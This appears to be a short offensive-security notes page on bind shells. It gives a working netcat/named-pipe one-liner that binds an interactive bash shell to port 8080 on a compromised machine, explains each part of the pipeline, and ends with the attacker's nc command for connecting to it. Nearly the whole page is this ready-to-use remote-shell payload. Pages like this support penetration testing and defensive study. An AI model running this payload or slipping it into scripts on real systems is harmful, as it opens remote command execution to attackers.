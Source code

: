 ```yaml
---
description: >-
  Bind shell will bind a port on the compromised system and listen for a
  connection; when this connection occurs, it exposes the shell session so the
  attacker can execute commands remotely.
---
```


# Bind shells

### Bind shell creation on the target:

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

Explanation of the Payload

* `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
* `mkfifo /tmp/f` - This command creates a named pipe, or FIFO, at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
* `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
* `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring error messages are returned to the attacker.
* **`| nc -l 0.0.0.0 8080`** - Starts Netcat in listen mode (`-l`) on all interfaces (`0.0.0.0`) and port `8080`. The shell will be exposed to the attacker once they connect to this port.
* `>/tmp/f` This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

### Connect from attacker to target:

```
nc -nv <target_ip> <port>
```

